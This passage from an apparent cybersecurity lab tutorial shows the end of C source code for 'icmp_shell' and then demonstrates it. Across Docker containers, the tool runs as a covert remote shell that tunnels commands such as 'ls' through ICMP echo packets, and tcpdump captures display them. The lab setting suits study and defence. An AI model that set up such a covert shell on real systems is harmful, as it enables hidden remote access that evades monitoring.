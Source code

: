 ```C
                async_read (raw_init (argv[i+1], IPPROTO_ICMP), 0);

        return 0;
}
```

Let's try it out:

```bash
# In the first terminal
docker network create testnet
docker run --privileged --net testnet -it basic_cybersecurity5:latest
root@d1c09e1b8f84:~# ./icmp_shell c 172.18.0.3
+ Raw to '172.18.0.3' (type : 0)

# In the second terminal
docker run --privileged --net testnet -it basic_cybersecurity5:latest
root@c134e2dbde63:~# ./icmp_shell s 172.18.0.2
+ Raw to '172.18.0.2' (type : 0)

# In the third terminal
docker exec -it d1c09e1b8f84 bash
root@d1c09e1b8f84:~# tcpdump -nnXSs 0 -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes


# In the first terminal
# uname -a
iRS v0.1
# ls
checksec.sh
client
client.c
crypt_shell
crypt_shell.c
icmp_shell
icmp_shell.c
rp++
server
server.c
#

# which produces the following output in the third terminal
08:49:28.471170 IP 172.18.0.2 > 172.18.0.3: ICMP echo reply, id 12345, seq 5, length 15
	0x0000:  4500 0023 e750 4000 4001 fb5f ac12 0002  E..#.P@.@.._....
	0x0010:  ac12 0003 0000 594b 3039 0005 0003 0000  ......YK09......
	0x0020:  6c73 0a                                  ls.
08:49:28.476440 IP 172.18.0.3 > 172.18.0.2: ICMP echo reply, id 12345, seq 5, length 111
	0x0000:  4500 0083 5462 4000 4001 8dee ac12 0003  E...Tb@.@.......
	0x0010:  ac12 0002 0000 1614 3039 0005 0063 0000  ........09...c..
	0x0020:  6368 6563 6b73 6563 2e73 680a 636c 6965  checksec.sh.clie
	0x0030:  6e74 0a63 6c69 656e 742e 630a 6372 7970  nt.client.c.cryp
	0x0040:  745f 7368 656c 6c0a 6372 7970 745f 7368  t_shell.crypt_sh
	0x0050:  656c 6c2e 630a 6963 6d70 5f73 6865 6c6c  ell.c.icmp_shell
	0x0060:  0a69 636d 705f 7368 656c 6c2e 630a 7270  .icmp_shell.c.rp
	0x0070:  2b2b 0a73 6572 7665 720a 7365 7276 6572  ++.server.server
	0x0080:  2e63 0a                                  .c.
08:49:28.477890 IP 172.18.0.3 > 172.18.0.2: ICMP echo reply, id 12345, seq 5, length 14
	0x0000:  4500 0022 5463 4000 4001 8e4e ac12 0003  E.."Tc@.@..N....
	0x0010:  ac12 0002 0000 ac9f 3039 0005 0002 0000  ........09......
	0x0020:  2320                                     #.

```
